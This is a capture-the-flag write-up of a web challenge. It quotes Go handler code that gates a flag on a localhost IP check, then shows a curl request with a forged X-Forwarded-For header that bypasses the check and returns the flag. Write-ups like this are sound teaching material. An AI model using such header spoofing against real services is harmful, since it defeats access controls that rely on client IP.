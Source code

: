 # We know this all too well

## Description

![](Pasted%20image%2020220312172439.png)

![](Pasted%20image%2020220312172450.png)

## Solution

### Looking through the code

I downloaded the files and looked at the code, more specifically these 2 files


``/dist/app/server/server.go`
```go

func flagHandler(w http.ResponseWriter, r *http.Request) {
	config.SetupResponse(&w, r)
	fmt.Fprint(w, logic.Flagger(r))
	return
}

func homeHandler(w http.ResponseWriter, r *http.Request) {
	config.SetupResponse(&w, r)
	fmt.Fprint(w, "And you were tossing me the car keys, f the patriarchy")
	return
}

func Init() {
	servers := []controller.Handler{
		{Path: "/", F: homeHandler, Methods: []string{"GET"}},
		{Path: "/login", F: loginHandler, Methods: []string{"POST"}},
		{Path: "/register", F: registerHandler, Methods: []string{"POST"}},
		{Path: "/verify", F: verifyHandler, Methods: []string{"POST"}},
		{Path: "/cornelia", F: corneliaHandler, Methods: []string{"POST"}},
		{Path: "/search", F: serachHandler, Methods: []string{"GET"}},
		{Path: "/flag", F: flagHandler, Methods: []string{"GET"}},
	}
	controller.RegisterRoute(servers)
	controller.Run()
}
```

`/dist/app/logic/logic.go`

```go
func Flagger(r *http.Request) string {
	ip, _ := remoteaddr.Parse().IP(r)
	if ip != "127.0.0.1" {
		return "I get older but your lovers stay my age."
	}
	return os.Getenv("FLAG")
}
```

### Bypassing IP Check

Change IP address forwarded header to bypass whitelist?

```bash
(base) [hacker@hackerbook build]$ curl "http://chals.ctf.sg:40301/flag" -H "X-Forwarded-For: 127.0.0.1"
CTFSG{All_T00_W3ll_T3n_M1nutes_V3rs1on_Taylors_Version}(base) [hacker@hackerbook build]$ 
```

## Flag

`CTFSG{All_T00_W3ll_T3n_M1nutes_V3rs1on_Taylors_Version}`
